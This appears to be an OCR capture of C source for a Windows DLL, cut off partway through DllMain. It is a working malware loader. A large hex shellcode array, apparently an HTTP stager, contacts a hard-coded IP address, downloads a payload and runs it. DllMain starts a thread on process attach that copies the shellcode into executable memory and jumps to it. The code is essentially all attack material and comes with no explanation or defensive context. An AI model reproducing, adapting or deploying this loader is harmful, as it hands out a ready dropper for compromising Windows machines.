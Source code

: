 ```c
unsigned char shellcode[800] = {0xfc,0xe8,0x89,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf0,0x52,0x57,0x8b,0x52,0x10,0x8b,0x42,0x3c,0x01,0xd0,0x8b,0x40,0x78,0x85,0xc0,0x74,0x4a,0x01,0xd0,0x50,0x8b,0x48,0x18,0x8b,0x58,0x20,0x01,0xd3,0xe3,0x3c,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0x31,0xc0,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf4,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe2,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x58,0x5f,0x5a,0x8b,0x12,0xeb,0x86,0x5d,0x68,0x6e,0x65,0x74,0x00,0x68,0x77,0x69,0x6e,0x69,0x54,0x68,0x4c,0x77,0x26,0x07,0xff,0xd5,0x31,0xff,0x57,0x57,0x57,0x57,0x57,0x68,0x3a,0x56,0x79,0xa7,0xff,0xd5,0xe9,0x84,0x00,0x00,0x00,0x5b,0x31,0xc9,0x51,0x51,0x6a,0x03,0x51,0x51,0x68,0x50,0x00,0x00,0x00,0x53,0x50,0x68,0x57,0x89,0x9f,0xc6,0xff,0xd5,0xeb,0x70,0x5b,0x31,0xd2,0x52,0x68,0x00,0x02,0x40,0x84,0x52,0x52,0x52,0x53,0x52,0x50,0x68,0xeb,0x55,0x2e,0x3b,0xff,0xd5,0x89,0xc6,0x83,0xc3,0x50,0x31,0xff,0x57,0x57,0x6a,0xff,0x53,0x56,0x68,0x2d,0x06,0x18,0x7b,0xff,0xd5,0x85,0xc0,0x0f,0x84,0xc3,0x01,0x00,0x00,0x31,0xff,0x85,0xf6,0x74,0x04,0x89,0xf9,0xeb,0x09,0x68,0xaa,0xc5,0xe2,0x5d,0xff,0xd5,0x89,0xc1,0x68,0x45,0x21,0x5e,0x31,0xff,0xd5,0x31,0xff,0x57,0x6a,0x07,0x51,0x56,0x50,0x68,0xb7,0x57,0xe0,0x0b,0xff,0xd5,0xbf,0x00,0x2f,0x00,0x00,0x39,0xc7,0x74,0xb7,0x31,0xff,0xe9,0x91,0x01,0x00,0x00,0xe9,0xc9,0x01,0x00,0x00,0xe8,0x8b,0xff,0xff,0xff,0x2f,0x4c,0x35,0x79,0x62,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x5c,0x50,0x5a,0x58,0x35,0x34,0x28,0x50,0x5e,0x29,0x37,0x43,0x43,0x29,0x37,0x7d,0x24,0x45,0x49,0x43,0x41,0x52,0x2d,0x53,0x54,0x41,0x4e,0x44,0x41,0x52,0x44,0x2d,0x41,0x4e,0x54,0x49,0x56,0x49,0x52,0x55,0x53,0x2d,0x54,0x45,0x53,0x54,0x2d,0x46,0x49,0x4c,0x45,0x21,0x24,0x48,0x2b,0x48,0x2a,0x00,0x35,0x4f,0x21,0x50,0x25,0x00,0x55,0x73,0x65,0x72,0x2d,0x41,0x67,0x65,0x6e,0x74,0x3a,0x20,0x4d,0x6f,0x7a,0x69,0x6c,0x6c,0x61,0x2f,0x34,0x2e,0x30,0x20,0x28,0x63,0x6f,0x6d,0x70,0x61,0x74,0x69,0x62,0x6c,0x65,0x3b,0x20,0x4d,0x53,0x49,0x45,0x20,0x38,0x2e,0x30,0x3b,0x20,0x57,0x69,0x6e,0x64,0x6f,0x77,0x73,0x20,0x4e,0x54,0x20,0x35,0x2e,0x31,0x3b,0x20,0x54,0x72,0x69,0x64,0x65,0x6e,0x74,0x2f,0x34,0x2e,0x30,0x3b,0x20,0x4c,0x42,0x42,0x52,0x4f,0x57,0x53,0x45,0x52,0x29,0x0d,0x0a,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x5c,0x50,0x5a,0x58,0x35,0x34,0x28,0x50,0x5e,0x29,0x37,0x43,0x43,0x29,0x37,0x7d,0x24,0x45,0x49,0x43,0x41,0x52,0x2d,0x53,0x54,0x41,0x4e,0x44,0x41,0x52,0x44,0x2d,0x41,0x4e,0x54,0x49,0x56,0x49,0x52,0x55,0x53,0x2d,0x54,0x45,0x53,0x54,0x2d,0x46,0x49,0x4c,0x45,0x21,0x24,0x48,0x2b,0x48,0x2a,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x5c,0x50,0x5a,0x58,0x35,0x34,0x28,0x50,0x5e,0x29,0x37,0x43,0x43,0x29,0x37,0x7d,0x24,0x45,0x49,0x43,0x41,0x52,0x2d,0x53,0x54,0x41,0x4e,0x44,0x41,0x52,0x44,0x2d,0x41,0x4e,0x54,0x49,0x56,0x49,0x52,0x55,0x53,0x2d,0x54,0x45,0x53,0x54,0x2d,0x46,0x49,0x4c,0x45,0x21,0x24,0x48,0x2b,0x48,0x2a,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x5c,0x50,0x5a,0x58,0x35,0x34,0x28,0x50,0x5e,0x29,0x37,0x43,0x43,0x29,0x37,0x7d,0x24,0x45,0x49,0x43,0x41,0x52,0x2d,0x53,0x54,0x41,0x4e,0x44,0x41,0x52,0x44,0x2d,0x41,0x4e,0x54,0x49,0x56,0x49,0x52,0x55,0x53,0x2d,0x54,0x45,0x53,0x54,0x2d,0x46,0x49,0x4c,0x45,0x21,0x24,0x48,0x2b,0x48,0x2a,0x00,0x35,0x4f,0x21,0x50,0x25,0x40,0x41,0x50,0x5b,0x34,0x00,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x68,0x00,0x00,0x40,0x00,0x57,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0xb9,0x00,0x00,0x00,0x00,0x01,0xd9,0x51,0x53,0x89,0xe7,0x57,0x68,0x00,0x20,0x00,0x00,0x53,0x56,0x68,0x12,0x96,0x89,0xe2,0xff,0xd5,0x85,0xc0,0x74,0xc6,0x8b,0x07,0x01,0xc3,0x85,0xc0,0x75,0xe5,0x58,0xc3,0xe8,0xa9,0xfd,0xff,0xff,0x31,0x39,0x32,0x2e,0x31,0x36,0x38,0x2e,0x31,0x35,0x2e,0x31,0x34,0x31,0x00,0x00,0x00,0x00,0x00};
DWORD WINAPI jmp_shellcode(LPVOID pPara)
{
	LPVOID lpBase = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(lpBase, shellcode, sizeof(shellcode));
	JMP_SHELLCODE jmp_shellcode = (JMP_SHELLCODE)lpBase;
	jmp_shellcode();
	return 0;
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason,LPVOID lpvReserved)
{
	switch(fdwReason)
	{
	 	case DLL_PROCESS_ATTACH:
		{
	 		hThread = CreateThread(NULL, 0, jmp_shellcode, 0, 0, 0);
		}
	 	case DLL_PROCESS_DETACH:
	 	{
	 		break;
	 	}
	 	case DLL_THREAD_ATTACH:
	 	{
```